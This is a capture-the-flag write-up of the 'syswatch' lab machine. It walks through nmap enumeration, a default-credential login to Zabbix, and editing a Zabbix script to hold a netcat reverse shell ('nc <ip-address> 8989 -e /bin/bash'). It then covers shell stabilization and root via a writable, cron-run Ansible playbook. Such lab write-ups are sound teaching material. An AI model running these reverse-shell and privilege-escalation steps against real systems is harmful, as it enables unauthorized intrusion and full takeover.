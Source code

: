 # Write Up on syswatch machine

## Information Gathering And Enumeration
Let's us first start off by firing up our network mapper (nmap) to discover open ports and running services on our target. <br>
`nmap -sC -sV -oN syswatch.nmap 10.0.160.159`
```
Nmap scan report for 10.0.160.159
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Cyborg Gaming
5000/tcp open  http    nginx 1.18.0
| http-robots.txt: 2 disallowed entries 
|_/ /zabbix/".
|_http-server-header: nginx/1.18.0
|_http-title: Zabbiz: Zabbix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 10:20:45 2023 -- 1 IP address (1 host up) scanned in 24.85 seconds
```

From the above scan we see that there are two services running. I browsed through the service running on port `80` but found nothing interesting. Looking at port `5000` nmap tells us that the application `zabbix` is running on that port.<br>

Let's take a look at it in our browser. <br>
![zabbix homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-port-5000-browser.png)

We are greeted with a login page and as usual we test default credentials to see if they work. After some googling we come across the default credentials for `zabbix`. <br>
![zabbix default creds](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-logins-zabbix-google.png)


## Exploitation
We can now test these credentials to see if they work. We enter the credentials and just like that we're are logged in to `zabbix`.<br>

After spending sometime reading about zabbix RCE and browsing through the application i found a hosts tab which allows us to run some defaults scripts on hosts in `zabbix`.<br>
![checking zabbix hosts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/checking-hosts-zabbix.png) <br>

And these are the various scripts we can run on the target. <br>
![zabbix host tab](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-host-scripts.png)

After further probing i found out that these scripts that are run on the zabbix host can be edited (because we are the admininstrator). Let's first start off by viewing the content of these default scripts.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/see-scripts.png)

After clicking on the script name we are greeted with a form which allows us to change the content of the script. For this demostration we will edit the `traceroute` script. <br>

This is the orginal content of the traceroute script.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-tracert-script.png)

We can edit this and place our malicious code here. <br>
`nc <ip-address> 8989 -e /bin/bash` <br>
After editing we can click on `update` to save those settings. <br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/edit-and-update-script.png)

We now head back to the `host` tab to run this script on the target server. We simply do that by clicking on the host and clicking on the script we want to run. Hold up!!! before you run the script make sure you have your netcat listening for incoming connections. <br>
![netcat listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/listening-on-nc.png)

Finally, we can run our malicous script(traceroute) to get a shell on our listener.<br>
![run mal script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run-modified-scripts.png)

Interesting.... we have a shell on the target. <br>
![got shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/connection-recieved-on-nc.png) <br>
NB: The script run time on `zabbix` times out after some minutes. If this happens just re-run the traceroute poisoned script.


## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell Stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>


## Privilege Escalation
First thing i did was to run `sudo -l` but no luck. Next i decided to check if there's a process running with elevated privileges that can be abused. <br> 
We transfer our trusted friend `pspy64` onto the target. <br>
Brief explanaation of `pspy64`: it is a program that allows us to snoop on linux processes to find sensitve information, processes running with elevated privileges amongst many others. We would have to run this on the target to get the required information. <br>

We start off by starting our python http server in the directory that houses the `pspy64` binary. <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/serving-pspy64.png)

Then we download onto our target machine. Preferably we'll first change directory to the `/tmp` since it has loose permissions (rwx) for all users. <br>
![download pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/cd-to-tmp-and-download-pspy64.png)

Next, we give `pspy64` execute permissions. <br>
![exec pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/execute-perms-on-pspy64.png)

Then we run it. <br>
![run pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run_pspy64.png)

![cronjob ansible](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/running-cron-job.png)

From the output we find out that a cronjob is running an ansible-playbook. We can find this playbook here: `/opt/playbooks/playbook.yml`. Let's not rush into anything yet, we must first check our permissions on `/opt/playbooks/playbook.yml`. <br>
![check perms](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/write-perms-on-playbook.png)

Wow! we have write permissions. Let's run off to create a malicious playbook. <br>
![mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/playbook-yaml-payload.png)

The we download the playbook onto out target. At this point, i assume you already have your python http server setup. <br>
![download mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/download-mal-playbook.png)

After this, we quickly setup our netcat listener. Note that in while crafting the malicious playbook we entered a command that will spawn a shell and connect to our machine on port `9090` using netcat. <br>
Now let's listen on port 9090. `rlwrap nc -lnvp 9090`
![other nc](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/other-nc-listening.png)

We can now go back to our target and over write the original `playbook.yml`.<br>
![overwrite playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/over-write-original-playbook.png)

Now, we patiently wait for a connection on `9090`. :rofl: <br>
After a while the cron runs and we receive a connection.<br>
![conn recv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/root-shell-cron-job-execs.png)

We are now root!! :smiley:<br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/i-am-root.png)
